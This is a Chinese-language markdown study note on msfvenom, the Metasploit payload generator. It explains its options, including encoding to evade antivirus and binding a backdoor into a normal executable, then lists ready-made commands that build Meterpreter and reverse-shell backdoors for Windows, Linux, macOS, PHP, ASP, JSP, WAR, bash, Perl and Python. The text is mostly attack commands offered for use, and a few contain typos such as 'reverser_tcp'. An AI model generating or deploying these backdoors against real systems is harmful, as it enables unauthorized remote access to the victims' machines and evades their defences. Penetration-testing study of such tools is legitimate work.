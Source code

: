 # msfvenom 学习

## -p (--payload-options)
```angular2html
添加载荷payload。

载荷这个东西比较多，这个软件就是根据对应的载荷payload生成对应平台下的后门，所以只有选对payload，再填写正确自己的IP，PORT就可以生成对应语言，对应平台的后门了！！！

(- -payload-options 列出payload选项)
```

## -l
`查看所有payload encoder nops`

## -f （--help-formats）

```angular2html
输出文件格式。

(--help-formats 列出所有文件格式)

Executable formats:
asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection, psh-cmd, vba, vba-exe, vba-psh, vbs, war
Transform formats:
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

## -e
``
编码免杀
``
## -a (--platform  --help-platforms)
```angular2html
选择架构平台
x86 | x64 | x86_64
Platforms:
windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe
```

## -o

```angular2html
文件输出
```
## -s
```angular2html
生成payload的最大长度，就是文件大小。
```

## -b
```angular2html
避免使用的字符 例如：不使用'\0f'。
```
## -i

```angular2html
编码次数
```
## -c

```angular2html
添加自己的shellcode
```

## -x|-k

```angular2html
捆绑。
例如：原先有个正常文件normal.exe 
可以通过这个选项把后门捆绑到这个程序上面。
```
# 事例
## 普通生成
```angular2html
msfvenom -p <payload> <payload options> -f <format> -o <path>
msfvenom –p windows/meterpreter/reverse_tcp –f exe –o C:\back.exe
```
## 编码生成

```angular2html
msfvenom -p <payload> -e <encoder > -i <encoder times> -n <nopsled> -f <format> -o <path>
msfvenom –p windows/meterpreter/reverse_tcp –i 3 –e x86/shikata_ga_nai –f exe –o C:\back.exe
```
## 捆绑
```angular2html
msfvenom –p windows/meterpreter/reverse_tcp –platform windows –a x86 –x C:\nomal.exe –k –f exe –o C:\shell.exe
```

## Windows
```angular2html
msfvenom –platform windows –a x86 –p windows/meterpreter/reverse_tcp –i 3 –e x86/shikata_ga_nai –f exe –o C:\back.exe
msfvenom –platform windows –a x86 –p windows/x64/meterpreter/reverse_tcp –f exe –o C:\back.exe
```

## Linux
```angular2html
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

## MAC
```angular2html
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

## PHP
```angular2html
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```

## ASP
```angular2html
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
## ASPX
```angular2html
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f aspx > shell.aspx
```

## JSP
```angular2html
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

## war
```angular2html
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

## bash
```angular2html
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On>-f raw > shell.sh
```
## Perl
```angular2html
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

## python
```angular2html
msfvenom -p python/meterpreter/reverser_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```